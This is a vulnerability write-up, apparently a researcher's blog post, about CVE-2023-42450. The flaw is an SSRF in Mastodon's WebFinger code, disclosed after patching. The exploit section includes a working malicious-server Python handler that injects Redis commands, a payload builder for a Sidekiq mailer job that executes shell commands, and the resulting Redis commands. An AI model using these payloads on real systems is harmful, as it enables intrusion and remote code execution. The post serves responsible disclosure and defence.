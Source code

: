 ```yaml
---
layout: post
title: From SSRF to RCE on Mastodon (CVE-2023-42450)
img: /public/images/cve-2023-42450.png
description: GHSA-hcqf-fw2r-52g4, an SSRF which leads to remote code execution.
---
```


I contacted the Mastodon security team in August 2023 to report 2 vulnerabilities in [Mastodon](https://github.com/mastodon/mastodon) itself, the software running a self-hosted, globally interconnected microblogging community.

New versions of Mastodon were released in September and related GitHub Security Advisory (GHSAs) published:

- [GHSA-hcqf-fw2r-52g4](https://github.com/mastodon/mastodon/security/advisories/GHSA-hcqf-fw2r-52g4): Server-side request forgery
- [GHSA-v3xf-c9qf-j667](https://github.com/mastodon/mastodon/security/advisories/GHSA-v3xf-c9qf-j667): Invalid domain name normalization

If you stumbled upon this [toot](https://mastodon.social/@MastodonEngineering/111071347844577269), these are the security patches I'm writing about. I found these vulnerabilities interesting enough from a technical point of view to publish write-ups, which basically are the (slightly edited) reports sent to Mastodon's security team.

This first blog post is about [GHSA-hcqf-fw2r-52g4](https://github.com/mastodon/mastodon/security/advisories/GHSA-hcqf-fw2r-52g4) (for which GitHub issued CVE-2023-42450), an SSRF which leads to remote code execution. **tl;dr: pre-releases only, not exploitable in prod in default configuration.**

<!-- more -->
 
# Summary

A Server-Side Request Forgery (also known as SSRF) vulnerability is present in the WebFinger code. It allows an attacker to send arbitrary data to the Redis server and leads to arbitrary code execution under the `mastodon` user.

This vulnerability was introduced in July 2023 by these [changes](https://github.com/mastodon/mastodon/pull/26219).

# Prerequisites

The vulnerability doesn't exist in production mode because the behavior of the `check_private_address` function [differs in development environments](https://github.com/mastodon/mastodon/blob/fe31571965a6b261165342ec97d11d67f0fae12b/app/lib/request.rb#L343). This function is called during the socket creation used for HTTP requests, a counter-measure to prevent SSRF.

Note that the `ALLOWED_PRIVATE_ADDRESSES` setting variable whitelists specific addresses/subnets for outgoing HTTP queries; if set, production environments might be vulnerable.

If a Redis password is set, the Redis exploitation vector doesn't work (unless the password is known). By default, the password is blank if Mastodon was installed using the command `RAILS_ENV=production bundle exec rake mastodon:setup` (or if this [Digital Ocean tutorial](https://www.digitalocean.com/community/tutorials/how-to-install-mastodon-on-ubuntu-20-04) was followed).


# Analysis

1. WebFinger requests can be triggered by authenticated users, eg. by searching for an account (`/api/v2/search?q=joe%40evil.com&resolve=true&limit=5`).
2. [ActivityPub::FetchRemoteActorService::check_webfinger!](https://github.com/mastodon/mastodon/blob/df6e7198984b42cf8d64e66548742e14264236a0/app/services/activitypub/fetch_remote_actor_service.rb#L47-L67) makes a first HTTPS request to the domain specified (eg. `/.well-known/webfinger?resource=acct:joe@evil.com`).
3. A JSON-LD response is returned by the server. If the `username` or `domain` specified in the `subject` field don't match the ones provided initially (here `joe@evil.com`), a second request is made to follow the redirection.
4. An invalid `domain` can be provided by a malicious server in the `subject` field. This domain is used [directly](https://github.com/mastodon/mastodon/blob/df6e7198984b42cf8d64e66548742e14264236a0/app/lib/webfinger.rb#L38) to build the URI. If the domain ends with `.onion`, an HTTP URI is [built](https://github.com/mastodon/mastodon/blob/df6e7198984b42cf8d64e66548742e14264236a0/app/lib/webfinger.rb#L104).
5. Finally, [Webfinger::webfinger_request](https://github.com/mastodon/mastodon/blob/df6e7198984b42cf8d64e66548742e14264236a0/app/lib/webfinger.rb#L98-L100) creates a `Request`.

The URI controlled by an attacker is directly used to build an HTTP request. White spaces and line returns aren't encoded, which is the root cause of this SSRF vulnerability.


# Exploit

## Arbitrary file creation

Here's the Python code of a malicious server which triggers the vulnerability and leads to the creation of the `/run/shm/pwn` file through SSRF. 3 [commands](https://redis.io/commands/) are sent to the Redis service on `127.0.0.1:6379` to modify its configuration on-the-fly:

```python
@app.route("/.well-known/webfinger")
def webfinger():
    cmd = ["config set dir /run/shm/", "config set dbfilename pwn", "save"]
    pwn = "\n\n".join(cmd)
    response = {
        "subject": f"acct:john@127.0.0.1:6379/\n\n\n{pwn}\n\n/.onion",
        "links": [
            {
                "rel": "self",
                "type": "application/activity+json",
                "href": "https://evil.com/host/users/john"
            }
        ]
    }
    return Response(json.dumps(response), mimetype="application/jrd+json")
```

The following `strace` output highlights Redis' behavior:

```
# strace -p $(pidod redis-server) -ff -e chdir,rename,read -v -s 4096 |& grep -v 'EAGAIN\|redis-server'
[pid 42605] read(22, "GET /\n\n\nconfig set dir /run/shm/\n\nconfig set dbfilename pwn\n\nsave\n\n/.onion/.well-known/webfinger?resource=acct:john@127.0.0.1:6379/\n\n\nconfig set dir /run/shm/\n\nconfig set dbfilename pwn\n\nsave\n\n/.onion HTTP/1.1\r\nUser-Agent: http.rb/5.1.1 (Mastodon/4.2.0-beta1; +http://localhost:3000/)\r\nHost: 127.0.0.1\r\nDate: Tue, 15 Aug 2023 17:10:38 GMT\r\nAccept-Encoding: gzip\r\nAccept: application/jrd+json, application/json\r\nConnection: close\r\n\r\n", 16384) = 432
[pid 42605] chdir("/run/shm/")          = 0
[pid 42605] rename("temp-42605.rdb", "pwn") = 0
[pid 42605] chdir("/run/shm/")          = 0
[pid 42605] rename("temp-42605.rdb", "pwn") = 0
# ls -l /run/shm/pwn
-rw-rw---- 1 redis redis 187354 Aug 15 17:10 /run/shm/pwn
```

[Redis post-exploitation](https://raw.githubusercontent.com/tom0li/collection-document/master/15-redis-post-exploitation.pdf) might be used to eventually gain code execution under the `redis` user. I went another way and tried to find a more generic exploitation vector.


## Remote command execution

Mastodon makes use of [Sidekiq](https://sidekiq.org/) to run background jobs such as sending emails. Since job queues are handled by Redis (as explained [here](https://www.paweldabrowski.com/articles/how-sidekiq-really-works)), the idea of crafting a malicious job to gain code execution emerged.

Digging into the [Action Mailer](https://guides.rubyonrails.org/action_mailer_basics.html) source code confirmed that it's possible, as shown by the following Python code which creates a malicious mailer job pushed to Redis:

```python
def create_payload(command):
    payload = {
        "retry": False,
        "queue": "mailers",
        "class": "ActiveJob::QueueAdapters::SidekiqAdapter::JobWrapper",
        "wrapped": "ActionMailer::MailDeliveryJob",
        "args": [
            {
                "job_class": "ActionMailer::MailDeliveryJob",
                "queue_name": "mailers",
                "arguments": [
                    "Object",
                    "instance_eval",
                    "delivery_method",
                    {
                        "args": [command],
                        "_aj_ruby2_keywords": ["args"]
                    }
                ],
                "executions": 0,
                "exception_executions": {}
            }
        ]
    }
    return json.dumps(json.dumps(payload, separators=(",", ":")), separators=(",", ":")

payload = create_payload("`id>/tmp/pwn`")
cmd = ["sadd queues mailers", f"lpush queue:mailers {payload}"]
```

This code:

1. Crafts a malicious Ruby method which will be invoked by [MailDeliveryJob.perform](https://github.com/rails/rails/blob/36ebb6ba2dbe60e2e689e97c71b7b12039c449f1/actionmailer/lib/action_mailer/mail_delivery_job.rb#L21-L29) thanks to `public_send`, here ``Object.instance_eval("`id>/tmp/pwn`")``.
2. Embeds this payload as an `ActiveJob::QueueAdapters::SidekiqAdapter::JobWrapper`.
3. Encodes the payload as JSON to result in a Sidekiq job.
4. Pushes this job to the `mailers` queue through Redis (`sadd queue:mailers`, `lpush queue:mailers "payload"`)

Here are the resulting Redis commands:

```
sadd queues mailers
lpush queue:mailers "{\"retry\":false,\"queue\":\"mailers\",\"class\":\"ActiveJob::QueueAdapters::SidekiqAdapter::JobWrapper\",\"wrapped\":\"ActionMailer::MailDeliveryJob\",\"args\":[{\"job_class\":\"ActionMailer::MailDeliveryJob\",\"queue_name\":\"mailers\",\"arguments\":[\"Object\",\"instance_eval\",\"delivery_method\",{\"args\":[\"`id>/tmp/pwn`\"],\"_aj_ruby2_keywords\":[\"args\"]}],\"executions\":0,\"exception_executions\":{}}]}"
```

The Ruby code is actually executed under the `mastodon` user, through the Sidekiq `mailers` queue:

```shell
$ cat /tmp/pwn
uid=1001(mastodon) gid=1001(mastodon) groups=1001(mastodon)
```

I doubt this is the only exploitation vector and other methods might exist, by the way. And note that HTTP requests made to Redis leave typical entries in the Redis server logs:

```
# grep POST /var/log/redis/redis-server.log | tail -1
10380:M 15 Aug 2023 11:33:21.791 # Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection aborted.
```


# Conclusion

Don't leave Mastodon, it's far better than Twitter ;)

All in all, this vulnerability is not that useful from an attacker point of view. Indeed, it is not exploitable in production in default configurations and the affected version is a pre-release (>= 4.2.0-beta1, < 4.2.0-rc2). [private_address_check](https://github.com/jtdowney/private_address_check) being used for every HTTP queries, it effectively blocks SSRF attacks.

The second blogpost ([GHSA-v3xf-c9qf-j667](https://github.com/mastodon/mastodon/security/advisories/GHSA-v3xf-c9qf-j667)) will detail how attackers could spoof Mastodon instances depending on their domain names. Stay tuned!
